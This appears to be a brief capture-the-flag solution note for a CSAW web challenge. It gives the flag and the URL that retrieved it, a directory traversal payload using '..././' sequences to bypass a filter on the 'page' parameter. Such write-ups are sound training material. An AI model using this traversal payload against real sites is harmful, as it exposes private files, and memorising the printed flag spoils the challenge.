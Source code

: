 Flag for DirT:
flag{dir_traversal_be_a_real_thing}
got with this url:
http://web.chal.csaw.io:1001/?page=..././..././flag.txt
